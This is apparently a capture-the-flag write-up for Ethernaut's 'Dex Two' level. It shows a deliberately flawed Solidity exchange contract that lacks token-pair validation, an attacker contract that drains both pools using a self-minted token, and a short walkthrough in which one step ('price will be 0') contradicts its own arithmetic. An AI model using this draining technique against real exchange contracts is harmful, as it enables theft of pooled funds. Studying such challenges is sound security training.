 # 23 - Dex Two

Ethernaut Level23: [Dex Two](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract DexTwo is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

### Goal of this level

* drain all balances of token1 and token2 from the `DexTwo` contract&#x20;

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

Check what's different from 22 - Dex !

</details>

```solidity
contract AttackDexTwo is ERC20 {
  DexTwo dexTwoContract;
  address token1;
  address token2;

  constructor() ERC20("AttackDexTwo", "ADT") {
    _mint(address(this), 10000);
  }

  function attack(DexTwo _instance) external {
    dexTwoContract = _instance;
    
    token1 = dexTwoContract.token1();
    token2 = dexTwoContract.token2();

    ERC20(address(this)).approve(address(dexTwoContract), 1000);
    ERC20(address(this)).approve(address(dexTwoContract), 1000);

    ERC20(address(this)).transfer(address(dexTwoContract), 100);

    dexTwoContract.swap(address(this), token1, 100);
    dexTwoContract.swap(address(this), token2, 200);
  }
}
```

```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

Because this condition is removed, we can swap any pair of tokens.

Frist, we transfer `100 ADT` to **`DexTwo`** contract.

Then we swap 100 `ADT` and 100 `token1` \
(price will be 0 since **`DexTwo`** contract has 100 `token1` and 100 `ADT`)

Now DexTwo contract has 100 `token2` and 200 `ADT`.

So if we exchange our 200 `ADT` with `token2`, \
the swap amount will be `(200 * 100) / 200 === 100`.

Done! 😎
